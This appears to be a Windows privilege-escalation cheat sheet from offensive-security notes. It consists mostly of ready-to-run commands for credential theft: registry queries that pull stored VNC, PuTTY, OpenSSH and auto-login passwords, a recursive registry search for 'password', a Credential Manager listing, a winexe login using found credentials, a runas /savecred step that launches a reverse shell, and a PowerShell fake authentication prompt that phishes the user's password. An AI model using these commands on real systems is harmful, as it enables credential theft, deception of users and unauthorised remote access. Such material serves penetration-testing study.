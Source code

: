 ### search for 'password' keyword in registry hives

```text
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\OpenSSH\Agent\Keys"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### extract openssh keys from registry

#### [https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/](https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/)

#### 

### find winlogon stored credentials \(auto login\)

```text
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

if you find anything you can connect to the target from kali machine with this command:

```text
winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```

### find putty session stored credentials

```text
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

### search windows credential manager

```text
cmdkey /list
```

to use windows "runas" feature to get a reverse shell:

```text
runas /savecred /user:admin C:\PrivEsc\reverse.exe 
```

### kindly asking user for credentials \( phishing \)

```text
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```
